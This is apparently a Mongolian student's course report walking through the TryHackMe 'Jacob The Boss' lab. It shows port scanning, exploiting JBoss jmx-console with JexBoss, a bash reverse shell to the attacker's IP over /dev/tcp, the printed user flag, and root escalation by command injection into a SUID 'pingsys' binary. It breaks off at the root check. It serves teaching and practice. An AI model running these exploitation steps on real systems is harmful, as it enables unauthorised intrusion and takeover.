<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  JACOB THE BOSS (MEDIUM)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – JACOB THE BOSS (MEDIUM)



---

## 1. ТОВЧ ТАЙЛБАР

Энэхүү тайлан нь TryHackMe платформ дээрх **Jacob The Boss (Medium)** лабораторийн машиныг эзлэх үйл явцыг тайлбарласан болно. Лабораторийн ажлын хүрээнд зорилтот серверийн нээлттэй портуудыг илрүүлж, JBoss Application Server-ийн эмзэг байдлыг ашиглан анхны хандалт авч, SUID програмын алдааг ашиглан root эрх рүү ахиулах үйл явцыг практик байдлаар гүйцэтгэсэн.

---

## 2.

Сервертэй холболт хэвийн байгааг баталгаажуулсны дараа зорилтот машины нээлттэй TCP портуудыг илрүүлэх зорилгоор **RustScan** хэрэгслийг ашигласан.

Ашигласан команд:

```bash
rustscan -a 10.112.155.51 -- -sC -sV -oN nmap_initial.txt
```

**Параметрүүдийн тайлбар:**

| Параметр | Зориулалт |
|----------|-----------|
| `-a` | Шалгах зорилтот IP хаягийг тодорхойлно |
| `--` | Nmap-д дамжуулах параметрүүдийн эхлэл |
| `-sC` | Nmap-ийн үндсэн скриптүүдийг ажиллуулж, үйлчилгээний нэмэлт мэдээлэл цуглуулна |
| `-sV` | Нээлттэй портууд дээр ажиллаж буй үйлчилгээ болон хувилбарыг тодорхойлно |
| `-oN nmap_initial.txt` | Сканнерын үр дүнг текст файлд хадгална |

Сканнерын эхний үр дүнд дараах нээлттэй портууд илэрсэн:

| Порт | Тайлбар |
|------|---------|
| 1098 | Java/JBoss орчны үйлчилгээ байж болох порт |
| 1099 | Java RMI Registry үйлчилгээтэй холбоотой порт |
| 3306 | MySQL өгөгдлийн сангийн стандарт порт |
| 3873 | Java/JBoss орчны нэмэлт үйлчилгээ |
| 4444 | Java/JBoss орчны үйлчилгээтэй холбоотой порт |
| 8080 | HTTP веб үйлчилгээ |
| 8083 | Нэмэлт веб үйлчилгээ |
| 8009 | AJP протоколын үйлчилгээ байж болох порт |
| 34255 | Динамик порт |




Эдгээр портын илрүүлэлтээс харахад зорилтот сервер дээр **Java болон JBoss Application Server** орчин ажиллаж байх магадлалтай байв. Ялангуяа 8080-р порт нь веб интерфэйс рүү хандах боломжтойг илтгэж байсан тул дараагийн шатанд уг үйлчилгээг илүү нарийвчлан шалгахаар шийдвэрлэсэн.


S
Сканнерын үр дүнг хадгалсан файлыг харуулах команд:

```bash
cat nmap_initial.txt
```

---

## 3. JBOSS ВЕБ СЕРВЕРИЙГ ШАЛГАХ

Нээлттэй 8080-р портоор дамжуулан зорилтот серверийн веб интерфэйс рүү хандсан. Үүний тулд веб хөтөч дээр дараах хаягийг нээсэн:

```
http://10.112.155.51:8080/
```

8080-р порт дээр **JBoss Application Server**-ийн веб интерфэйс болон тохиргоотой холбоотой мэдээлэл харагдсан. JBoss нь Java хэл дээр суурилсан веб болон байгууллагын түвшний програмуудыг ажиллуулах Application Server юм.

JBoss серверийн зарим хуучин хувилбар болон буруу тохиргоотой компонентууд нь зөвшөөрөлгүй хэрэглэгчид удирдлагын интерфэйсэд хандах, сервер дээр хүсээгүй үйлдэл гүйцэтгэх эрсдэлийг бий болгодог. Иймээс дараагийн шатанд JBoss серверийн эмзэг байдлыг шалгах тусгай хэрэгсэл ашиглахаар болсон.


---

## 4. JEXBOSS ХЭРЭГСЛИЙГ ТАТАЖ АВАХ

JBoss Application Server-ийн эмзэг байдлыг шалгах зорилгоор GitHub дээр байрлах **JexBoss** нээлттэй эхийн хэрэгслийг ашигласан.

Эхний удаа дараах командыг ажиллуулахад:

```bash
python3 jexboxx.py -u http://10.112.155.51:8080/
```

дараах алдаа гарсан:

```
python3: can't open file '/home/kali/jexboxx.py':
[Errno 2] No such file or directory
```

Энэ алдаа нь `jexboxx.py` нэртэй файл тухайн ажиллаж байсан `/home/kali/` хавтсанд байхгүй байсантай холбоотой. Өөрөөр хэлбэл хэрэгсэл хараахан татагдаагүй, эсвэл командын файлын зам буруу байсан.

Иймээс JexBoss хэрэгслийг GitHub сангаас татаж авсан:

```bash
git clone https://github.com/joaomatosf/jexboss.git
```

`git clone` команд нь GitHub дээр байрлах эх кодын санг локал Kali Linux систем рүү хуулж авна. Татаж авах ажиллагаа амжилттай дууссаны дараа `jexboss` нэртэй хавтас үүссэн.

Дараа нь уг хавтас руу орсон:

```bash
cd jexboss
```

Энэ команд нь одоогийн ажлын директорыг `jexboss` хавтас болгон өөрчилнө.

Татаж авсан файлуудыг шалгахын тулд:

```bash
ls -la
```

командыг ашигласан. Үр дүнд `jexboss.py`, `_exploits.py`, `jexcsv.py`, `README.md`, `requires.txt` зэрэг файлууд харагдсан. Ийнхүү хэрэгсэл амжилттай татагдсан бөгөөд ажиллуулах үндсэн Python файл нь `jexboss.py` болохыг баталгаажуулсан.



---

## 5. JEXBOSS АШИГЛАН JBOSS ЭМЗЭГ БАЙДЛЫГ ШАЛГАХ

JexBoss хэрэгслийг татаж авсны дараа зорилтот серверийн 8080-р порт дээрх JBoss үйлчилгээг шалгасан.

Ашигласан команд:

```bash
python3 jexboss.py -u http://10.112.155.51:8080/
```

**Параметрүүдийн тайлбар:**
- `python3` – Python 3 орчинд скриптийг ажиллуулна
- `jexboss.py` – JBoss-ийн эмзэг байдлыг шалгах хэрэгслийн үндсэн файл
- `-u` – Шалгах зорилтот веб серверийн URL хаягийг тодорхойлно

JexBoss ажиллах үед JBoss серверийн хэд хэдэн компонентыг шалгасан.

**Үр дүн:**

```
Checking jmx-console:          [ VULNERABLE ]
Checking web-console:          [ VULNERABLE ]
Checking JMXInvokerServlet:    [ VULNERABLE ]
Checking admin-console:        [ OK ]
Checking Application Deserialization: [ OK ]
Checking Servlet Deserialization:     [ OK ]
Checking Jenkins:              [ OK ]
Checking Struts2:               [ OK ]
```

Шалгалтын үр дүнд **jmx-console**, **web-console**, **JMXInvokerServlet** гэсэн гурван компонент эмзэг гэж илэрсэн. Харин бусад шалгасан компонентууд дээр тухайн хэрэгслийн шалгалтаар эмзэг байдал илрээгүй.

Эдгээрээс **jmx-console** компонентын эмзэг байдлыг ашиглан автомат exploitation хийх боломжийг сонгосон.



---

---

## 6. JMX CONSOLE ЭМЗЭГ БАЙДЛЫГ АШИГЛАХ

JexBoss хэрэгсэл дараах асуултыг харуулсан:

```
Do you want to try to run an automated exploitation via "jmx-console"?
yes/NO?
```

Энэ нь JMX Console компонентийн эмзэг байдлыг ашиглан сервер дээр команд ажиллуулах оролдлого хийх эсэхийг асууж байгаа хэрэг юм.

Зөвшөөрөлтэй TryHackMe лабораторийн орчинд туршилт хийж байсан тул дараах хариултыг оруулсан:

```
yes
```

Үүний дараа JexBoss дараах мэдээллийг харуулсан:

```
Successfully deployed code!
Starting command shell.
```

Энэ үр дүн нь JexBoss-ийн exploitation ажиллагаа амжилттай болж, зорилтот сервер дээр команд ажиллуулах боломжтой shell нээгдсэнийг илтгэнэ.

Системийн мэдээллийг шалгахад:

```
Linux jacobtheboss.box 3.10.0-1127.18.2.el7.x86_64
```

гэсэн мэдээлэл харагдсан. Мөн хэрэглэгчийн эрхийг шалгах үед:

```
uid=1001(jacob) gid=1001(jacob)
```

гэсэн үр дүн гарсан. Энэ нь сервер дээр команд ажиллуулах боломжтой болсон боловч одоогоор зөвхөн **jacob** хэрэглэгчийн эрхтэй байгааг харуулж байв.



---

---

## 7. REVERSE SHELL ХОЛБОЛТ ҮҮСГЭХ

JexBoss-оор үүсгэсэн командын shell нь зорилтот сервер дээр команд ажиллуулах боломж олгосон боловч Kali Linux-ийн терминалд илүү тохиромжтой байдлаар холбогдох шаардлагатай байв. Иймээс **Reverse Shell** холболт үүсгэсэн.

Эхлээд Kali Linux-ийн TryHackMe VPN интерфэйсийн IP хаягийг шалгасан:

```bash
ip -4 addr show tun0
```

Энэ команд нь `tun0` интерфэйсийн IPv4 хаягийг харуулна.

Шалгалтын үр дүнд:

```
inet 192.168.196.54/18
```

гэсэн мэдээлэл гарсан. Иймээс Kali Linux-ийн VPN IP хаяг нь **192.168.196.54** болохыг тогтоосон.

Дараа нь Netcat ашиглан 4444-р порт дээр холболт хүлээн авах listener эхлүүлсэн:

```bash
rlwrap nc -lvnp 4444
```

**Командын тайлбар:**
- `rlwrap` – Командын мөрийн оролтыг удирдах боломжийг сайжруулна
- `nc` – Netcat хэрэгслийг ажиллуулна
- `-l` – Холболт хүлээн авах горимыг идэвхжүүлнэ
- `-v` – Холболтын талаарх нэмэлт мэдээллийг харуулна
- `-n` – DNS нэрийн орчуулга хийхгүй
- `-p 4444` – 4444-р портыг ашиглана

Амжилттай ажилласны дараа:

```
listening on [any] 4444 ...
```

гэсэн мэдээлэл гарсан. Энэ нь Kali Linux-ийн 4444-р порт холболт хүлээн авахад бэлэн болсныг илэрхийлнэ.

Үүний дараа JexBoss-ийн `Shell>` цонх руу буцаж, дараах Reverse Shell командыг ажиллуулсан:

```bash
/bin/bash -i > /dev/tcp/192.168.196.54/4444 0>&1 2>&1
```

Энэ команд нь зорилтот сервер дээр Bash shell ажиллуулж, гаралтын урсгалыг Kali Linux-ийн 192.168.196.54 IP хаягийн 4444-р порт руу чиглүүлнэ. Ингэснээр зорилтот серверээс Kali Linux руу буцах холболт үүсдэг.

Netcat терминал дээр дараах мэдээлэл гарсан:

```
connect to [192.168.196.54] from (UNKNOWN) [10.112.155.51] 58328
bash: no job control in this shell
[jacob@jacobtheboss /]$
```

Энэ үр дүн нь Reverse Shell холболт амжилттай үүссэнийг баталсан. Зорилтот серверийн 10.112.155.51 IP хаяг Kali Linux-ийн 192.168.196.54 IP хаяг руу холбогдсон бөгөөд **jacob** хэрэглэгчийн командын мөр нээгдсэн.

`bash: no job control in this shell` гэсэн анхааруулга нь Reverse Shell нь бүрэн интерактив TTY терминал биш байгаатай холбоотой. Гэсэн хэдий ч команд ажиллуулах боломж хэвийн байсан.

---

---

## 8. USER FLAG ФАЙЛЫГ ХАЙЖ ОЛОХ

Reverse Shell холболтоор серверт **jacob** хэрэглэгчийн эрхээр нэвтэрсний дараа хэрэглэгчийн flag файлыг хайсан.

Ашигласан команд:

```bash
find / -name user.txt 2>/dev/null
```

**Командын тайлбар:**
- `find /` – Серверийн үндсэн директороос эхлэн бүх боломжит хавтсаас хайна
- `-name user.txt` – Нэр нь `user.txt` гэсэн файл хайна
- `2>/dev/null` – Стандарт алдааны мэдээллийг нууж, зөвшөөрөлгүй хавтасны алдааг терминал дээр харуулахгүй

Үр дүнд дараах файлын зам илэрсэн:

```
/home/jacob/user.txt
```

Файлын агуулгыг уншихын тулд:

```bash
cat /home/jacob/user.txt
```

командыг ажиллуулсан.

**Үр дүн:**

```
f4d491f280de360cc49e26ca1587cbcc
```

Ийнхүү **jacob** хэрэглэгчийн **User Flag**-ийг амжилттай олсон.



---
---

## 9. SUDO ЭРХИЙГ ШАЛГАХ

User Flag-ийг авсны дараа систем дээр хэрэглэгчид олгогдсон нэмэлт эрх байгаа эсэхийг шалгах зорилгоор `sudo -l` командыг ажиллуулсан:

```bash
sudo -l
```

Энэ команд нь одоогийн хэрэглэгч ямар командуудыг sudo ашиглан өндөр эрхээр ажиллуулах зөвшөөрөлтэй байгааг харуулах зориулалттай.

Гэвч дараах алдаа гарсан:

```
sudo: no tty present and no askpass program specified
```

Энэ нь Reverse Shell холболт бүрэн интерактив TTY терминал биш байсан тул sudo нууц үг асууж чадахгүй байгааг илэрхийлнэ. Иймээс энэ үр дүнгээр **jacob** хэрэглэгч sudo эрхтэй эсэхийг бүрэн тогтоох боломжгүй байсан.

Энэ асуудлаас шалтгаалан лабораторийн write-up-ийн дараагийн алхам болох **SUID тохиргоотой файлуудыг шалгах** аргыг ашигласан.

---

## 10. SUID ТОХИРГООТОЙ ФАЙЛУУДЫГ ИЛРҮҮЛЭХ

Linux үйлдлийн системд **SUID** буюу Set User ID нь тухайн файлыг ажиллуулах үед файлын эзэмшигчийн эрхээр ажиллуулах боломж олгодог тусгай зөвшөөрлийн бит юм.

Хэрэв root эзэмшигчтэй файл SUID тохиргоотой бөгөөд тухайн програмд аюулгүй байдлын алдаа байвал энгийн хэрэглэгч програмыг ажиллуулах явцдаа root эрхтэй үйлдэл гүйцэтгэх эрсдэл үүсэж болно.

Иймээс систем дээрх SUID тохиргоотой файлуудыг хайсан:

```bash
find / -perm -u=s 2>/dev/null
```

**Командын тайлбар:**
- `find /` – Үндсэн директороос эхлэн хайлт хийнэ
- `-perm -u=s` – Хэрэглэгчийн SUID бит тохируулагдсан файлуудыг илрүүлнэ
- `2>/dev/null` – Хайлтын явцад үүсэх зөвшөөрлийн алдаануудыг нууж харуулна

**Үр дүнд дараах файлууд илэрсэн:**

```
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

Эдгээрээс **/usr/bin/pingsys** файл нь лабораторийн write-up-д онцолсон чухал файл байсан.

---

## 11. PINGSYS ПРОГРАМЫН ЭМЗЭГ БАЙДЛЫГ АШИГЛАН ROOT ЭРХ АВАХ

SUID тохиргоотой файлуудын жагсаалтаас **/usr/bin/pingsys** файлыг илрүүлсний дараа түүний ажиллагааг шалгасан.

`pingsys` нь ping үйлдэл гүйцэтгэх зориулалттай програм боловч оролтын утгыг боловсруулахдаа хэрэглэгчийн оруулсан өгөгдлийг аюулгүй байдлаар шалгаагүй тохиолдолд **командын injection** эмзэг байдал үүсэх боломжтой.

Энэ лабораторийн нөхцөлд `pingsys` програмын оролтын боловсруулалтын алдааг ашиглан нэмэлт команд ажиллуулах боломжтой байсан.

Ашигласан команд:

```bash
/usr/bin/pingsys '127.0.0.1; /bin/bash'
```

**Командын тайлбар:**
- `127.0.0.1` – Localhost буюу тухайн серверийн өөрийн IP хаяг руу ping хийх утга
- `;` – Shell орчинд командуудыг тусгаарлах үүрэгтэй
- `/bin/bash` – Bash shell ажиллуулах команд

`pingsys` файл SUID тохиргоотой байсан тул програмын аюулгүй бус команд боловсруулах ажиллагааг ашиглах үед **root эрхтэй shell** нээгдэх боломж бүрдсэн.

Root эрх авсан эсэхийг шалгахын тулд дараах командыг ажиллуулсан:

